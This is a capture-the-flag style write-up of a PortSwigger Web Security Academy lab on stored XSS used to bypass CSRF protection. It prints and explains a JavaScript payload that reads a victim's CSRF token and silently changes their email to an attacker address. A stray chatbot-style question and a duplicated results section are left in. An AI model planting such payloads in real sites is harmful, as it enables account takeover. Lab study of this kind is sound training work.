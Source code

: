 **🗓️ Solution Date:** 23 / 5 / 2025  
**🔗 Lab Link:** [Exploiting XSS to bypass CSRF defenses](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)  
**🧨 Vulnerability Type:** Stored XSS  

---

## 1️⃣ Introduction

In this lab, there is a **Stored XSS** vulnerability in the blog comment system. This vulnerability can be exploited to inject JavaScript code that steals the victim's **CSRF Token** when they open the page, then uses this token to send a **POST** request to change their email address without their knowledge.

---

### 👤 Test Login Credentials:
- **Username:** `wiener`
- **Password:** `peter`

---

### 💡 Important Notes:
- You cannot use an already registered email.
- When testing on your account, use a random dummy email.
- In the actual attack, ensure you use an unused email address.
- Tools like **Burp Suite** are useful for capturing and analyzing requests.
- Ensure the XSS code works as soon as the victim opens the comments page.

---

## 2️⃣ Practical Testing

I tested changing the email from my account and monitored the resulting request, which contained the new email along with the CSRF token as shown in the following image:

> ![Pasted image](../images/image%205.png)

Based on this, I exploited the XSS vulnerability so that automatically, when any user (like admin) visits the comments page, their CSRF token is stolen and a request is submitted to change their email to the attacker's account.

---

## 3️⃣ Payload Used

```html
<script>
window.addEventListener('DOMContentLoaded', function() {
  let tokenElem = document.getElementsByName('csrf')[0].value;
  fetch('my-account/change-email', {
    method: 'POST',
    mode: 'no-cors',
    body: 'email=attacker@gmail.com&csrf=' + tokenElem,
  });
});
</script>
```

---

## 4️⃣ Payload Explanation Step by Step

1. **`<script>`**  
    The code starts as an HTML script element injected into a comment (through the XSS vulnerability).
    
2. **`window.addEventListener('DOMContentLoaded', function() { ... });`**  
    This line ensures the code won't execute until the page is fully loaded (after DOM elements are loaded).
    
3. **`let tokenElem = document.getElementsByName('csrf')[0].value;`**  
    This line searches for an element in the page with the name (name="csrf"), assuming it's an `<input>` element containing the **CSRF token**.  
    The value is extracted and stored in the `tokenElem` variable.
    
4. **`fetch('my-account/change-email', { ... })`**  
    This line executes an HTTP request of type `POST` to the email change path (`my-account/change-email`) within the same site.
    
    #### Parameters:
    
    - **`method: 'POST'`**  
        Because changing email requires a POST request.
        
    - **`mode: 'no-cors'`**  
        This prevents the browser from blocking the request due to **CORS** policy. However, it also prevents the browser from allowing you to read the response (which doesn't matter here as the attack is "blind").
        
    - **`body: 'email=attacker@gmail.com&csrf=' + tokenElem`**  
        The request body contains the required data for changing the email:
        
        - `email=attacker@gmail.com`: The new address to change to.
            
        - `csrf=...`: The protection token extracted from the page.
            

---

### 🎯 Expected Result:

As soon as the victim (e.g., site administrator) visits the comments page containing this code, the request to change their email to `attacker@gmail.com` is automatically executed without their knowledge, unless there are additional protections like CSP or strict SameSite Cookies.

---

Would you like me to modify the code to include proper header formatting (Content-Type)?
---

## 5️⃣ Expected Result

Once the victim visits a page containing this comment, a request to change their email to `attacker@gmail.com` is automatically sent using their CSRF token, without any direct intervention from them.

✅ The attack was successfully executed in the lab environment, ensuring all conditions were met to bypass protection mechanisms.
